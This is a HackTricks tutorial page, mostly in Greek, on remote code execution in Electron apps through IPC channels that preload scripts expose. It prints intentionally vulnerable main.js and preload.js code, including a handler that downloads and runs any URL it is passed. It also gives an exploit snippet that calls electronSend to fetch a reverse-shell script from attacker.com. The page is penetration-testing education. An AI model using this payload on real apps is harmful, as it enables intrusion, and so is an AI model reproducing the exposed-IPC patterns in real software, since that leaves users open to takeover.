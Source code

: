 # Electron contextIsolation RCE via IPC

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Αν το preload script εκθέτει ένα IPC endpoint από το αρχείο main.js, η διαδικασία renderer θα μπορεί να έχει πρόσβαση σε αυτό και αν είναι ευάλωτο, μπορεί να είναι δυνατή μια RCE.

**Οι περισσότερες από αυτές τις παραδείγματα προήλθαν από εδώ** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). Δείτε το βίντεο για περισσότερες πληροφορίες.

## Example 0

Παράδειγμα από [https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) (έχετε το πλήρες παράδειγμα του πώς το MS Teams εκμεταλλεύτηκε το XSS για RCE σε αυτές τις διαφάνειες, αυτό είναι απλώς ένα πολύ βασικό παράδειγμα):

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Example 1

Δείτε πώς το `main.js` ακούει στο `getUpdate` και θα **κατεβάσει και θα εκτελέσει οποιοδήποτε URL** περάσει.\
Δείτε επίσης πώς το `preload.js` **εκθέτει οποιοδήποτε IPC** γεγονός από το main.
```javascript
// Part of code of main.js
ipcMain.on('getUpdate', (event, url) => {
console.log('getUpdate: ' + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
});

mainWindow.webContents.session.on('will-download', (event, item, webContents) => {
console.log('downloads path=' + app.getPath('downloads'))
console.log('mainWindow.download_url=' + mainWindow.download_url);
url_parts = mainWindow.download_url.split('/')
filename = url_parts[url_parts.length-1]
mainWindow.downloadPath = app.getPath('downloads') + '/' + filename
console.log('downloadPath=' + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on('updated', (event, state) => {
if (state === 'interrupted') {
console.log('Download is interrupted but can be resumed')
}
else if (state === 'progressing') {
if (item.isPaused()) console.log('Download is paused')
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once('done', (event, state) => {
if (state === 'completed') {
console.log('Download successful, running update')
fs.chmodSync(mainWindow.downloadPath, 0755);
var child = require('child_process').execFile;
child(mainWindow.downloadPath, function(err, data) {
if (err) { console.error(err); return; }
console.log(data.toString());
});
}
else console.log(`Download failed: ${state}`)
})
})
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
Εκμετάλλευση:
```html
<script>
electronSend("getUpdate","https://attacker.com/path/to/revshell.sh");
</script>
```
## Παράδειγμα 2

Εάν το preload script εκθέτει άμεσα στον renderer έναν τρόπο να καλέσει το `shell.openExternal`, είναι δυνατόν να αποκτηθεί RCE
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url);
};
```
## Example 3

Αν το preload script εκθέτει τρόπους για πλήρη επικοινωνία με τη βασική διαδικασία, μια XSS θα είναι σε θέση να στείλει οποιοδήποτε γεγονός. Ο αντίκτυπος αυτού εξαρτάται από το τι εκθέτει η βασική διαδικασία όσον αφορά το IPC.
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb);
};

window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
